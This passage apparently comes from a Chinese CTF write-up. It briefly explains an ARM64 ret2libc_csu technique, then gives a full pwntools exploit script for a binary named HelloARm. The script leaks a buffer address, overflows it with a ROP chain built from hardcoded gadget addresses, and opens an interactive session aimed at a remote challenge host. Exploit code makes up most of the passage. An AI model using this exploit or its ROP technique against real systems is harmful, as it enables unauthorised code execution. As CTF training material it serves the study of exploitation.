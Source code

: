 OK，现在我们可以控制控制流了，只要再能控制R0-R2三个寄存器的话，就可以get shell了。

观察了下IDA，发现程序没有能直接控制R0-R2的gadget，不像x86有push和pop，不过我们可以像x86利用ret2libc_csu一样来利用arm的ret2libc_csu，这里就不详细介绍ret2libc_csu了，基本原理和x86一致，直接看EXP。

````python
#Author: Nopnoping
from pwn import *

s      = lambda data               :sh.send(data) 
sa      = lambda delim,data         :sh.sendafter(delim, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda delim,data         :sh.sendlineafter(delim, data)
sea     = lambda delim,data         :sh.sendafter(delim, data)
r      = lambda numb=4096          :sh.recv(numb)
ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
info_addr = lambda tag, addr        :sh.info(tag +': {:#x}'.format(addr))
itr     = lambda                    :sh.interactive()

if args['REMOTE']:
	sh=remote('10.104.255.210',7777)
else:
	sh=process(['qemu-aarch64','-g','1234','-L','/usr/aarch64-linux-gnu/','./HelloARm'])
	#sh=process(['qemu-aarch64','-L','/usr/aarch64-linux-gnu/','./HelloARm'])

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def debug(command=''):
	os.system('xfce4-terminal -x sh -c "gdb-multiarch pwn -ex \'target remote 127.0.0.1:1234\'"')

def paper_rop(func,r0=0,r1=0,r2=0,buff=0):
	rop = p64(0x000000000411080) #x30
	rop += p64(0x0000000000400AAC) 
	rop += p64(0)
	rop += p64(1) #20
	rop += p64(func) #x21=func
	rop += p64(r0) #x22=r0
	rop += p64(r1) #x23=r1
	rop += p64(r2) #x24=x2
	return rop

def exp():
	libc=ELF("./lib/libc-2.27.so")
	read=0x0000000000400760
	write=0x0000000000400730
	ru("number:")
	buff=int(ru("\n").replace("\n",''),16)-0x10
	info_addr("buff",buff)
	ru("name")
	sl("a")
	ru("message")
	payload="a"*0x108+p64(0x000000000400AD4)+p64(read)+p64(write)+\
			"a"*0x100+paper_rop(func=buff,r0=3,r1=0x000000000411090,r2=0x100)+\
			p64(0)+p64(0x000000000400AD4)+p64(0)*6+paper_rop(func=buff+8,r0=1,r1=0x000000000411090,r2=0x100)
	print hex(len(payload))
	sl(payload)
	itr()

````